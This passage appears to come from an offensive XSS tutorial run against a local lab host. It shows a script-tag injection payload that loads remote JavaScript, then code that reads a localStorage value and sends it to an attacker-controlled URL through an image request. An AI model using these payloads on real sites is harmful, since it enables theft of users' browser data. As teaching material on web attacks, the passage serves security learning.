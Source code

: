 Injection:
```
<script src=http://127.0.0.1/setLocalStorageItem.js></script>
```
<br>
setLocalStorageItem.js>
```
window.localStorage.setItem('user', 'test');
```
<br>
![](/img/OffensiveXSS1/setLocalStorage.PNG)

It worked, we set a local storage item. Now let's retrieve the value.
<br>
getLocalStorageItem.js:
```
var data = window.localStorage.getItem('user');
var i=new Image;
i.src="http://127.0.0.1/?"+data;
```
<br>